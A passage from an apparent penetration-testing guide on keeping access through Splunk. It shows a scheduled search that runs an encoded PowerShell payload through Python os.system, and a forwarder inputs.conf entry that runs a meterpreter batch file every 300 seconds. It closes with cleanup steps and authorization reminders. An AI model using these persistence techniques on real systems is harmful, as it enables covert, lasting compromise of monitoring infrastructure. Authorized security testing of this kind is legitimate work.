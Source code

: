 ### Using Scheduled Searches

Create a scheduled search that runs your payload regularly:

1. Navigate to Settings → Searches, reports, and alerts
2. Create a new scheduled search
3. Set the search to:
```
| script python
import os
os.system("powershell -e BASE64_ENCODED_PAYLOAD")
```
4. Schedule it to run at your desired interval

### Leveraging Forwarders

If the target has Splunk Universal Forwarders deployed:

1. Modify `inputs.conf` on a compromised system:
```
[script://./bin/meterpreter.bat]
disabled = 0
interval = 300
```

2. Create `meterpreter.bat` in the `bin` directory with your payload

## Cleanup

After authorized testing is complete, be sure to:

1. Remove any custom apps and scripts
2. Delete scheduled searches
3. Terminate any persistent backdoors
4. Document all actions taken for the client

## Security Considerations

Remember these key points:

1. **Authorization**: Only perform these activities with explicit written permission
2. **Documentation**: Document all actions for your assessment report
3. **Containment**: Be careful not to affect production operations
4. **Legal**: Ensure your activities comply with applicable laws and regulations


##
##
##
